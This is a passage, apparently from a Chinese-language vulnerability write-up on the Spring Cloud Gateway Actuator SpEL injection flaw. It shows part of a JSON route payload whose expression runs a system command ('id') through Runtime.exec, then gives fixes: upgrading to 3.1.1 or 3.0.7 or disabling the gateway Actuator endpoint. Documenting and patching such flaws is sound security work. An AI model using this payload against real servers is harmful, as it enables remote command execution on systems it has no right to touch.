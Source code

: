 ```
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}



```

> `删除网关之后需要再次刷新网关才能使删除生效.`



# 漏洞的修复

**两种方法:**

1. 升级SpringCloudGateway

> SpringCloudGateway >= 3.1.1
>
> SpringCloudGateway >= 3.0.7

2.  在不考虑影响业务的情况下, `禁用Actuato`r就可以了

```
management.endpoint.gateway.enable:false
```

![image-20230410222739928](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410222739928.png)



